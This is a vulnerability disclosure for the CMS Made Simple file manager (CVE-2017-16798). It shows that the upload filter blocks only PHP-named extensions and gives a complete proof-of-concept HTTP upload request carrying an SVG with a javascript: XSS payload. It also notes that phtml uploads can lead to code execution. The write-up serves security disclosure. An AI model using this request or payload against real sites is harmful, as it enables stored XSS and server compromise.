 # Use CVE-2017-16798.
one day I felt like reviewing the source code of some random CMS and I picked CMSMS. This is totally random and I did this to kill boredom.
## FILE UPLOAD XSS  
In file manager,user can upload any files other than php。If the file ends with html, svg, it can Cause XSS.If the file ends with phtml,it can case code execution.Please see https://www.drupal.org/node/2450963 about the
relevance of ".phtml" and ".pht" for remote code execution.
file modules/FileManager/action.upload.php,line10~line29.  
    
    protected function is_file_acceptable( $file )
    {
      $config = \cms_config::get_instance();
      if( !$config['developer_mode'] ) {
          $ext = strtolower(substr(strrchr($file, '.'), 1));
          if( startswith($ext,'php') || endswith($ext,'php') ) return FALSE;
      }
      return TRUE;
  }
  
  It only intercepts PHP files.
  
  

### poc
   ```
   POST /admin/moduleinterface.php HTTP/1.1
   Host: 127.0.0.1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
   Accept: application/json, text/javascript, */*; q=0.01
   Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
   X-Requested-With: XMLHttpRequest
   Referer: http://127.0.0.1/
   Content-Length: 865
   Content-Type: multipart/form-data;
   boundary=---------------------------135822859015495
   Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
   Connection: close
   -----------------------------135822859015495
   Content-Disposition: form-data; name="mact"
   FileManager,m1_,upload,0
   -----------------------------135822859015495
   Content-Disposition: form-data; name="_sk_"
   98cf4d97037a4df557b
   -----------------------------135822859015495
   Content-Disposition: form-data; name="disable_buffer"
   1
   -----------------------------135822859015495
   Content-Disposition: form-data; name="m1_files[]"; filename="svg.svg"
   Content-Type: image/png
   <svg id="rectangle"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:xlink="http://www.w3.org/1999/xlink"
   width="100" height="100">
   <foreignObject width="100" height="50"
   requiredExtensions="http://www.w3.org/1999/xhtml">
   <embed xmlns="http://www.w3.org/1999/xhtml" 
   src="javascript:alert('xss')" />
   </foreignObject>
   </svg>
   -----------------------------135822859015495--
   ```

![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/40567149.jpg)

    
